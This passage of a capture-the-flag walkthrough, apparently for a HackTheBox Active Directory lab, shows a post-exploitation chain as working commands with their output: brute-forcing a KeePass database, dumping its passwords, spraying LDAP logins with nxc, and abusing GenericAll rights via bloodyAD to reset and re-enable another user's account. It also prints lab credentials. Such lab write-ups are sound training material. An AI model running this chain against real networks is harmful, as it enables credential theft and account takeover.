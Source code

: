 ### Decrypting
We recover a KeePass database (recovery.kdbx) from the DEV share. KeePass stores credentials in encrypted form, so we attempt to brute-force the master password using rockyou.txt.

We use [this](https://github.com/r3nt0n/keepass4brute) script to decrypt it.

```
sudo apt install keepassx # Dependency
chmod +x keepass4brute.sh
winter@ice:~/Desktop/puppy$ ./keepass4brute.sh recovery.kdbx /usr/share/seclists/rockyou.txt
```
We find the password to the file - `liverpool`.

Then, we dump all information from `recovery.kdbx`.
```
keepassxc-cli export recovery.kdbx > dump.xml
```

To convert this to csv,
```
xmlstarlet sel -t -m "//Entry" -v "String[Key='Password']/Value" -o "," dump.xml > dump.csv
```
And finally to extract just the usernames and passwords.
```
cat dump.csv | tr "," "\n" > passwords.lst
```

## Lateral Movement

Now, we have a passwords list and a usernames list. We try brute-forcing to connect to the AD using LDAP to obtain the right credentials using `nxc`.
```
nxc ldap puppy.htb -u users.lst -p passwords.lst
```
And we get a match.
```
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
```

### ANT.EDWARDS
Again, we collect the data using `bloodhound`.
```
bloodhound-python -d puppy.htb -u ant.edwards -p 'Antman2025!' -ns 10.10.11.70 -c All --zip
```
Add it to ingest on the bloodhound webapp at http://127.0.0.1:8080.
![BloodHound - Ant.Edwards](./BH-ANT.png)
Apparently, ANT.EDWARDS is a member of SENIOR DEVS which has GenericAll on ADAM.SILVER.

GenericAll means that ANT.EDWARDS can modify ADAM.SILVER's password as well.
```
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --dc-ip 10.10.11.70 set password adam.silver cocoRocks@1
```

But then, while trying to access it via LDAP, we find that the account is disabled.
```
nxc ldap puppy.htb -u adam.silver -p cocoRocks@1
```
```
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB) (signing:None) (channel binding:No TLS cert)
LDAP        10.10.11.70     389    DC               [-] PUPPY.HTB\adam.silver:cocoRocks@1 STATUS_ACCOUNT_DISABLED
```
The account can be enabled by removing the `UAC ACCOUNTDISABLE` flag. We do this using bloodyAD.
```
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --dc-ip 10.10.11.70 remove uac adam.silver -f ACCOUNTDISABLE
```
